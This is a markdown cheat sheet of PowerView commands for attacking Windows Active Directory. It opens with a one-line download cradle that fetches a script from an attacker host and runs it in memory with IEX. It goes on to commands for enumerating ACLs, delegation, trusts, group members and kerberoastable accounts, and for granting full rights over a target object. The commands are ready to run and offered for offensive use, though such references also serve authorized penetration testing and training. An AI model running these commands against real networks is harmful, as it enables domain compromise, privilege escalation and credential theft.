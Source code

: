 # powerview

% ad, windows, powerview

## load from remote
#plateform/windows #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Set alternative creds to use
#plateform/windows #target/remote  #cat/RECON 
Example : Use with commands as "-Credential $creds"

```powershell
$passwd = ConvertTo-SecureString <password> -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential (<domain\user>, $passwd)
Get-DomainUser -Credential $Cred
```

## Get User from SID
#plateform/windows #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Find user ACL 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user ACL
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add user DACL
#plateform/windows #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Find all groups our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Find all users our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## Add GenericAll to target for user
#plateform/windows #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Find all Computer with unconstrained delegation
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Get all domain trust 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Get all members of a a given group
#plateform/windows #target/remote  #cat/RECON 
Example: Get-DomainGroupMember "Domain Admins" -Recurse

```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain> -Recurse
```



## Get list of kerberoastable users
#plateform/windows #target/remote  #cat/RECON 
Description : The following will enumerate 'Kerberoastable' users for a given domain

```powershell
Get-NetUser -Domain <domain> | Where-Object {$_.servicePrincipalName} | select name, samaccountname, serviceprincipalname 
```
